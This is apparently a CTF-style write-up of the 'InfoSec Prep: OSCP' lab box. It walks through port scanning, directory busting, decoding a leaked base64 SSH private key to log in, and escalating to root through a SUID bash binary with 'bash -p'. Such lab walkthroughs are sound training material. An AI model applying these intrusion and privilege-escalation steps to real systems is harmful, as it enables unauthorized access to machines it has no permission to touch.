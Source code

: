 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/infosec-prep-oscp,508/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery

Performing a simple `nmap` scan to identify the attack surface of the target.

## portscan
```bash
$ nmap -Pn -p- -sV 192.168.59.89
```
- 22 (OpenSSH)
- 80 (Apache)
- 33060 (unrecognized)

## website
Performing a simple dir busting on the target

```bash
$ dirb http://192.168.59.89`
```

`Wordpress` seems to be installed on the web server.

> Additionally `dirb` was able to identify the files `robots.txt` and `secret.txt`
{: .prompt-info}

- `robots.txt`: `/secret.txt`
- `secret.txt`: contains a `base64` blob

---

# exploitation
## preparing
### save the `base64` blob and decode it
```bash
$ base64 -d blob.base64
```

> The decoding reveals that it is an `ssh` private key!
{: .prompt-info}

### generate the public key out of private key to get `username`
```bash
ssh-keygen -f ssh.priv -y > ssh.pub
```

> `username` is `oscp`
{: .prompt-info}

## getting a shell and access the first flag
```bash
$ ssh -i ssh.priv oscp@192.168.59.89
bash-5.0$ cat local.txt
*******************************
```

---

# post exploitation
## privilege escalation
identifiy `SUID` binaries owned by `root`
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /usr/bin/bash
...
```

The website [gtfobins](https://gtfobins.github.io/gtfobins/bash/#suid) reveals that the binars `bash` can be exploited to gain `root` access.

```bash
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
```

> Root!
{: .prompt-info}

## get second flag
```bash
bash-5.0# cd /root/
bash-5.0# ls
fix-wordpress  flag.txt  proof.txt  snap
bash-5.0# cat flag.txt 
Your flag is in another file...
bash-5.0# cat proof.txt 
1******************************8
```

Pwned! <@:-)
